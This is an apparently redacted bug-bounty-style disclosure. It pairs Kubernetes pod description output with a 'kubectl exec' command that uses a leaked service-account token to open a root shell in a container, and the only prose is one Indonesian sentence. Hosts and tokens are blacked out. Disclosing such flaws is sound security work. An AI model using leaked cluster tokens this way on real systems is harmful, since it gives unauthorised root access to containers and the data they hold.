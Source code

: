 ```
    Port:           ████/TCP
    Host Port:      0/TCP
    State:          Running
      Started:      Sun, 22 Apr 2018 03:23:09 +0000
    Last State:     Terminated
      Reason:       Error
      Exit Code:    2
      Started:      Fri, 20 Apr 2018 23:39:21 +0000
      Finished:     Sun, 22 Apr 2018 03:23:07 +0000
    Ready:          True
    Restart Count:  180
    Limits:
      cpu:     10m
      memory:  20Mi
    Requests:
      cpu:        10m
      memory:     20Mi
    Liveness:     http-get http://:███/healthz delay=30s timeout=5s period=10s #success=1 #failure=3
    Environment:  <none>
    Mounts:
      ██████
Conditions:
  Type           Status
  Initialized    True
  Ready          True
  PodScheduled   True
Volumes:
 ██████████:
    Type:        Secret (a volume populated by a Secret)
    SecretName: ███████
    Optional:    false
QoS Class:       Guaranteed
Node-Selectors:  <none>
Tolerations:     node.kubernetes.io/not-ready:NoExecute for 300s
                 node.kubernetes.io/unreachable:NoExecute for 300s
Events:          <none>

```

attacker dapat mengunakan token untuk mendapatkan akses ke semua container

```
$ kubectl --certificate-authority ca.crt --server https://████ --token "█████.██████.███" exec -it w█████████ -- /bin/bash

Defaulting container name to web.
Use 'kubectl describe pod/w█████████' to see all of the containers in this pod.
███████:/# id
uid=0(root) gid=0(root) groups=0(root)
█████:/# ls
app  boot   dev  exec  key  lib64  mnt  proc  run   srv  start  tmp  var
bin  build  etc  home  lib  media  opt  root  sbin  ssl  sys    usr
███████:/# exit
```
